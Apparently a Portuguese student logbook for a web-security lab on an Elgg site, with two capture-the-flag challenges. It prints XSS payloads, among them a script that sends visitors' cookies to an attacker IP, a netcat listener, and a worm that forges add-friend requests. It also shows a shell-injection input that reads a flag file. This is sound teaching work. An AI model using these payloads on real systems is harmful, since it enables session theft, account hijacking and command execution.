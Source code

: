 # LOGBOOK 10

### Lab Environment Setup

Completamos todos os pontos presentes no guião deste lab, isto é, DNS Setup, Container Setup and Commands, Elgg Web Application.

### Preparation

Neste lab vamos precisar de contruir HTTP requests. Para conseguirmos perceber como é um HTTP request em Elgg aceitável, vamos necessitar de poder capturar e analizar HTTP requests. Podemos utilizar uma extensão do Firefox chamada "HTTP Header Live". 
Tivemos que nos ambientar a esta ferramenta, para posteriomente avançar no guião.

## Task 1

O objetivo desta tarefa é incorporar um programa JavaScript no perfil Elgg, de forma que quando outro utilizador visualizar o perfil, o programa JavaScript seja executado e uma janela de alerta seja exibida.

O código JavaScript `<script>alert("XSS");</script>` exibe a janela de alerta. Os resultados estão no finala desta secção.

Com o seguinte código exemplo conseguimos referir um ficheiro .js para executar o código nele contido. Isto é útil para quando temos um programa Javascript de maior dimensão, ao contrário do exemplo anterior.
```
<script type="text/javascript"
        src="http://www.example.com/myscripts.js">
</script>
```

![](https://i.imgur.com/obINJpV.png)

![](https://i.imgur.com/LQACwXx.png)



## Task 2

O objetivo desta tarefa é incorporar um programa JavaScript no perfil Elgg, de modo que, quando outro utilizador visualizar o perfil, os cookies do utilizador sejam exibidos na janela de alerta.

Podemos atingir este objetivo introduzindo no campo "description" o seguinte código Javascript:
```
<script>alert(document.cookie);</script>
```

![](https://i.imgur.com/NDacdlJ.png)

![](https://i.imgur.com/5WBiQOO.png)

## Task 3

Na tarefa anterior, o código JavaScript malicioso escrito pelo invasor pode imprimir os cookies do utilizador, mas apenas o utilizador pode ver os cookies, não o invasor. Nesta tarefa, pretendemos que o código JavaScript envie os cookies para o invasor.

Para conseguirmos fazer isto precisamos que o programa Javascript envie um HTTP request para o atacante, com as cookies anexados.
Podemos usar uma tag <img> com o atributo src a apontar para a máquina do atacante. O browser vai tentar carregar a imagem, mas em vez disso vai fazer um pedido GET à máquna do invasor.

O seguinte código JavaScript envia os cookies para a porta 5555 da máquina do invasor (com endereço IP 10.9.0.1), onde o invasor possui um servidor TCP pronto a ouvir na mesma porta.
```
<script>
document.write("<img src=http://10.9.0.1:5555?c=" + escape(document.cookie) + " >");
</script>
```

![](https://i.imgur.com/w87IOAZ.png)

Um programa bastante utilizado por invasores é o netcat (ou nc) , que, se executado com a opção "-l", torna-se um servidor TCP que escuta uma conexão na porta especificada. Este programa de servidor basicamente imprime tudo o que é enviado pelo cliente e envia para o cliente tudo o que é digitado pelo utilizador executando o servidor. Com o comando `$ nc -lknv 5555` conseguimos escutar na porta 5555.

A opção -l é usada para especificar que o nc deve escutar uma conexão de entrada em vez de iniciar uma conexão com um host remoto. A opção -nv é usada para que o nc forneça uma saída mais detalhada. A opção -k significa que quando uma conexão for concluída, deve ouvir outra.

Utilizamos o comando netcat que referimos em cima para ouvir todos os request feitos por utilizadores que visitaram o nosso perfil. Esses requests contêm os cookies do utilizador, como pode ser visto em baixo:

![](https://i.imgur.com/qWdb0cf.png)


## Task 4

Nesta e na próxima tarefa, pretendemos realizar um ataque semelhante ao que Samy Worm fez ao MySpace em 2005. O objetivo é escrever um worm XSS que adiciona Samy como amigo a qualquer outro utilizador que visite a página de Samy.

Podemos adicionar Samy como amigo normalmente e, com a extensão HTTP Header Live, podemos descobrir como um HTTP request de amigo é codificado.

![](https://i.imgur.com/Mu1WEtN.png)

Utilizando esta informação, podemos criar um script que, ao ser executado, forja uma solicitação que adiciona Samy como amigo ao utilizador autenticado.

```
<script type="text/javascript">
  window.onload = function () {
    var Ajax=null;
    
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;          ➀
    var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁
    
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
    
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
  }
</script>
```

Colocamos este script no campo "About me" para ser executado por um utilizador quando este entrar no nosso perfil.

![](https://i.imgur.com/G0dju90.png)

![](https://i.imgur.com/28hoQiI.png)

Antes de visitar o perfil do Samy:

![](https://i.imgur.com/qoYQlQW.png)

Depois de visitar o perfil do Samy:

![](https://i.imgur.com/4VcqtK0.png)


#### Question 1 - Explain the purpose of Lines ➀ and ➁, why are they needed?

As linhas ➀ e ➁, marcadas no script da secção 4, servem para enviar o token elgg no request forjado para que o servidor avalie o request como um request válido do utilizador.

#### Question 2 - If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?

Um ataque bem-sucedido não pode ser iniciado, pois o modo Editor filtra os caracteres especiais HTML e não podemos editar o conteúdo HTML interno do campo. Portanto, injetar qualquer script no campo "About me" não é possível, pois não podemos enviar a tag < script > no perfil.

## CTFs

### Desafio 1

Depois de analisar o formulário, apercebemo-nos que este é vulnerável a XSS. Portanto, para obter a flag, inserimos no formulário um script que faz com que o botão "Give the flag" que estava desativado seja acionado e, assim, o administrador responde ao pedido e a flag aparece.

![](https://i.imgur.com/D3z5syb.png)

![](https://i.imgur.com/woPZvSW.png)

![](https://i.imgur.com/iOP5gSy.png)

### Desafio 2

Ao analisar o servidor web, conseguimos identificar que o comando ping está a ser implementado pelo servidor.

``` ping [options] hostname or IP address ```

O ping é um utilitário linux que pode ser usado para verificar se uma rede está presente e se um host pode ser acessado.

Como podemos ver na imagem seguinte, o comando ping é executado no endereço IP inserido (127.0.0.1).

![](https://i.imgur.com/R3XKlos.png)

 Caso se insiram argumentos inválidos, o ping não é executado e o site não produz resposta.

![](https://i.imgur.com/btiUYtY.png)

Quando injetamos o código, este é o código que na realidade é executado:

``` ping 127.0.0.1; cat /flags/flag.txt ```

Ou seja, estão a ser executados dois comandos diferentes da shell. O segundo comando imprime a flag.

![](https://i.imgur.com/QZANr3J.png)

![](https://i.imgur.com/Ygwjiz0.png)

